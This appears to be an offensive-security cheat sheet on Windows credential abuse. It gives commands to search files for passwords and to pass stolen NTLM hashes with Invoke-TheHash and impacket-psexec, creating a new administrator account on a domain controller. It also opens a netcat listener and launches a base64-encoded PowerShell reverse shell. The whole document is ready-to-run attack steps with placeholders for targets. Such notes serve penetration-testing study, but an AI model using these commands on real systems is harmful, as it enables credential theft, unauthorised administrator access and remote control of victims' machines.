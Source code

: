 # Password extraction - powershell

## Powershell - "password" kw in files based on extensions
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Powershell - PTH with Invoke-TheHash (uses WMI & SMB)
```
Import-Module .\Invoke-TheHash.psd1
# Create a new user, add it to the Administrators group
Invoke-SMBExec -Target <DC IP> -Domain <DOMAIN> -Username <VICTIM USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net <NEW USER> <NEW PASSWD> /add && net localgroup administrators <NEW USER> /add" -Verbose

# Addition : revshell

# setup netcat listener
.\nc.exe -lvnp <PORT>

# Launch revshell
Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target DC01 -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <REVSHELL IN B64>"
```

## psexec - PTH
```
impacket-psexec administrator@10.129.201.126 -hashes :<NT HASH> # LM hash is left blank
```

